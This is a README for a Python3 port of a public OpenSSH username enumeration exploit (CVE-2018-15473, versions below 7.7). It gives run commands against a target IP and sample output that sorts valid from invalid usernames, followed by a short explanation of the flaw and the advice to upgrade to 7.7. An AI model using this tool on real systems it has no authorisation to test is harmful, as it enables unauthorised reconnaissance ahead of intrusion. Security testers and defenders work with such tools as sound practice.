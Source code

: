 SSH-Username-Enumeration-Exploit (OpenSSH 2.3 < 7.7)

Edited version of the original exploit: https://www.exploit-db.com/exploits/45233

Converted to Python3
Added username wordlist option
How To Run
#Ensure that you install the requirements:
foo@bar:~$ pip3 install -r requirements.txt
#For single username:
foo@bar:~$ ./CVE-2018-15473.py 192.168.1.20 -u root
[+] root is a valid username
#For multiple username:
foo@bar:~$ ./CVE-2018-15473.py 192.168.1.20 -w username_wordlist.txt
[+] root is a valid username
[-] mysql is an invalid username
[-] mike is an invalid username
[-] foo is an invalid username
[-] bar is an invalid username
Valid Users: 
root
#For more option:
foo@bar:~$ ./CVE-2018-15473.py -h
About the Vulnerability:
The system responds differently to valid and invalid authentication attempts. A remote user can send specially crafted requests to determine valid usernames on the target system. Thus, a remote user can determine valid usernames on the target system.

Solution:
OpenSSH server should be upgraded to, or higher than, version 7.7
